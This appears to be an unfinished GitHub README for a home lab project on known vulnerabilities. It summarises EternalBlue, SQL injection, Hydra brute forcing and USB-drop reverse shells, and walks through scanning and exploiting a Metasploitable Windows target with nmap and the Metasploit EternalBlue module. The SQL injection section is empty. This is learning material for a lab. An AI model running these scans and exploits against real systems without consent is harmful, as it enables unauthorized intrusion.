 CAUTION: USING ANY OF THESE METHODS WITHOUT OWNERS CONSENT MAY/WILL RESULT IN PERSECUTION. ENSURE ALL PROPER PROCEDURES HAVE TAKEN PLACE BEFORE MOVING ON. 
[Under Construction]
___________________
The objective of this project was to familiarize myself with known vulnerabilities and
with said knowledge, be able to build counter measures/patch necessary apps & OS. 
___________________

 - Eternal Blue is one of my favorite vulns, it exposed how many devices could be easily infected with little to no effort by sending modified packets 
to the victim machine. Windows had a vulnerability within the OS server message block. This has crippled entire sectors of industrial sites when combined
into wannacry.

 - SQL Injection is a very common attack vector as many corporations/servers use SQL. 

 - Brute force ssh using hydra to show how basic ssh/telnet/ftp/sftp/mysql services can be brute forced when improperly configured or straight out vulnerable.

 - Reverse shells by "dropping USBs" (simulating a physical pentest)
   
--------------------------
HOW TO REPLICATE 
--------------------------
NOTE: I will be using metasploitable both win/linux to demonstrate most if not all vulns/exploits. 

- 💙Eternal Blue💙

   Step 1: 
   Once your windows server and kali/parrot machine is spun up, ensure the two machines can communicate with each other by either using netdiscover or Nmap.
  ~~~
   sudo netdiscover -r ipaddress/prefix | OR | nmap -T4 -sV --version-all --osscan-guess -A -p 1-10000 ipaddress
  ~~~

  Step 2: 
  Use Nmap to confirm the windows server is vulnerable by using one of the NSE scripts that come with Nmap,

  ~~~
  nmap -p 139, 445 --script smb-vuln-ms17-010 ipaddress
  ~~~

  Step 3: 
 Once verified, within your attacking machine spin up msfconsole and search for the smb-ms17-010 exploit and configure it for your victim machine.

~~~
  msfconsole , use exploit/windows/smb/ms17_010_eternalblue , options , set rhost ipaddress , check , run 
~~~
Congrats you have used an exploit to gain unauthorized access!
------------------------------
- ✒️SQL Injection✒️ 

 Step 1:






